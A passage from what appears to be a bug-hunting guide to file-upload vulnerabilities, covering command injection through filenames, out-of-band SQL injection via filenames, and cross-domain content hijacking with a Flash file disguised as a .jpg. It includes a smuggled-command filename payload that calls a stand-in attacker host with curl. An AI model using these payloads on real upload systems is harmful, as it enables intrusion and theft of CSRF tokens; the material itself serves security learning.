 Developers accepts **zip** file, but handle **filenames** via **command line**.

**Exploit:**

**`Filename;curl attacker.com;pwd.jpg`**

---

# **Scenario 14 ( OOB SQL Injection via filename )**

If the developers are trusting the filenames and pass it directly to the Database, this will allow attackers to execute Out of Band SQL Injection.

A good scenario would be companies asking you to submit your CV without validating the CV name.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/36e19cea-dd11-4693-9ef3-c8341515f25f/Untitled.png)

---

# **Scenario 15 ( Cross Domain Content Hijacking )**

When developers are validating the uploaded filename, content-type but missing to validate the uploaded file content. It is

possible to upload a Flash file with .jpg extension, then call that flash file with <object tags in your website and Bingo, you

are able to do Cross Origin Requests to steal CSRF tokens.

**How browsers see it?**

1. Plugins like Flash doesn't care about the extension or content-type
    
2. If the file is embeded using <object> tag, it will be executed as a Flash file as long as the file content looks like Flash.